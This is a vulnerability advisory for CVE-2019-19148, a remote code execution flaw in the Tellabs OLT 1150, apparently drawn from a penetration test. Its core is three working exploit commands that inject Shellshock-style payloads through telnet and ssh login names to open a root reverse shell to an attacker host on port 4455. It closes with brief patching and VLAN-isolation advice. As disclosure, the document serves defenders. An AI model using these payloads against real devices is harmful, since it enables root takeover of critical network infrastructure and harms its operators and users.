 # tellabs_rce CVE-2019-19148
Tellabs OLT RCE

During a recent penetration test, a vulnerability in the way Tellabs handles incoming authentication/authorization was discovered which allowed us to bypass the authentication methods on the Tellabs OLT 1150 device. It is highly suspected that this vulnerability exists in other devices as well.

[Product]

Vendor: Tellabs

Model: MX-IPTV1150

System Version: FP29.2_015873

Release: ONT709.2.50.12

Date: 180722

Steps to reproduce were based on the older Telnet "ShellShock" vulnerability.

It's known that the following methods all produced a netcat reverse shell as root:
Steps used to exploit:

	telnet [OLTHOSTNAME] -l ";EOF() { :;}; /usr/bin/id & /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	
The above command asked for the username within the telnet session, and when it timed out, produced the output: "uid=0(emsuser) gid=0(root)" showing that the second portion of the command was not parsed, and the system was vulnerable.

	telnet [OLTHOSTNAME] -l "() { :;}; $((/bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1)) /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	
The above command was run and produced a reverse 'netcat' style shell to the attacker IP address with a full root bash shell. Again, suspect the second portion of the command was unnecessary, but due to time constraints, was unable to test further.


	ssh [OLTHOSTNAME] -l "''; /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	
After 3 failed authentication attempts the connect back to the netcat listener occurs and you are dropped in a root shell. (Contributed by Sandia National Laboratory)


Due to customer concerns with the critical nature of the networking infrastructure, further testing beyond the above was not possible, and the customer immediately contacted the vendor to work on a patch.


## Recommendations:
Contact the vendor for a patch

Move management interfaces to specific VLAN and ensure only the minimum number of personnel can access that interface
